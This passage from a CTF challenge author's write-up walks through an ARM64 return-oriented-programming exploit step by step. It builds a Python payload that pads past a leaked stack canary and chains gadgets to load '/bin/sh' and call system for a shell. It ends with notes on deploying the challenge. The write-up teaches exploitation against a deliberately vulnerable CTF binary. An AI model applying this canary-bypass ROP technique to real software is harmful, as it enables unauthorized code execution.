

So, the 8 chars of junk will be popped into `x29` and we'll head to our next gadget, `ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;` Here we are loading into `x19` the value on the stack at `sp + 0x10`. After which we pop values off the stack into `x29` and `x30` and increment the SP by 0x20. This serves no purpose other than I was working on a different exploit chain and removing this part kept breaking the current ROP chain. But, we get our next gadget into `x30` and that is where will will continue the ROP chain. 

Here is the payload so far: 

```python
payload = flat([
    'a' * 104, # Junk
    canary, # Account for the canary
    'b' * 8, # Account for base pointer
    mov_x2_sp, # Saving SP into x2
    'c' * 8, # More Junk for x29
    canary,  # Another Canary
    'd' * 8, # More Junk
    ldr_x19 #  Next junk gadget, explained above
])
```

The final gadget we'll use is `ldr x0, [x2, #0x10]; ldp x29, x30, [sp], #0x10; ret`. Here we'll use what we set up in the first gadget. This gadget will load the value at `x2`, which is the SP, plus 0x10 which we can have be a stack address of `/bin/sh` if we send the string in the exploit chain correctly! Then, just like we've been doing we'll load a base pointer and return. Here is the exploit so far. 

```python
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,
    mov_x2_sp,
    'c' * 8,
    canary,
    'd' * 8,
    ldr_x19,
    binsh,
    ldr_x0_x2,
])
```
With this we can save the stack pointer, then load a stack address relative of it which can be `/bin/sh`. Pretty cool huh? Next, all we've gotta do is call system. Its going to be on the stack with the rest of the ROP chain, but to understand where let's have a look at the ROP chain on the stack before the first gadget is executed. 



Notice the green rectangle is where we put system, then the at the blue rectangle we've got a bunch of junk chars, in this case `e`.  Why the junk characters? Well, the ROP gadget we used above, `ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;`, incremented the stack pointer by `0x20`. Below we can see what the stack looks like before the last part of that gadget is executed. 



Notice the stack pointer is much lower, and we needed to send in those junk characters to account for it's aforementioned increase. We needed `system` to be able to be loaded into `x30`. Below is an image of the stack before the `ldp x29, x30, [sp], #0x10; ret` portion of the last ROP gadget is executed. As you can see, the junk worked because the last bit of the `e` chars will be loaded into `x29` and the address of `system` will be successfully loaded into `x30`. 



Now we sit back, relax, and watch as a glorious shell is spawned. 

#### A few notes on this chal
This challenge was deployed using a redpwn jail which is built upon nsjail. In short, this system will mount the filesystem of an ARM docker container inside the x86-64 based redpwn container. On my local Ubuntu x86-64 VM this worked fine as long as qemu was installed. However, I noticed that ASLR was disabled. This is no fun for CTFs. Additionally, when a shell was spawned inside the container running on an x86-64 host, the nsjail and qemu combo did not like that. As such, I migrated this deployment to an ARM based VM. The layout of the binary and offsets are the same, however ASLR was enabled and users could spawn a shell with `system`. 

The source for these challenges is located [here](https://github.com/CaptainNapkins/bctf-2024-chals) and source for other challenges will be located on the b01lers [github](https://github.com/b01lers). 

See ya next year.